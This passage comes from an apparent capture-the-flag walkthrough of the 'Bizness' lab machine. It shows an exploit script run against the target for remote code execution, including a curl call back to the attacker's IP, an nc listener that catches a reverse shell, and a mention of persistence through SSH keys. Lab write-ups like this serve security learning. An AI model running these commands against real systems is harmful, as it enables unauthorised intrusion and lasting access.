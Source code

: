 I decided to test the exploit before gaining a shell, by simply making a HTTP request to my box:
```bash
python3 exploit.py https://bizness.htb/ rce 'curl $MY_IP'
```

![](img/bz-rce-success.png)

### Gaining foothold

The exploit also provides us a shell functionality, so I did not have to create my own shell:
```bash
sudo rlwrap nc -lnvp 443
python3 exploit.py https://bizness.htb/ shell $MY_IP:443
```

![](img/bz-rce-shell.png)

After I got the shell I created persistance via SSH keys. This, however; is not really required but it makes the whole enumeration phase easier. I also grabbed the flag at `/home/ofbiz/user.txt`.

Priviledge Escalation
=====================

Enumeration
-----------

### Database
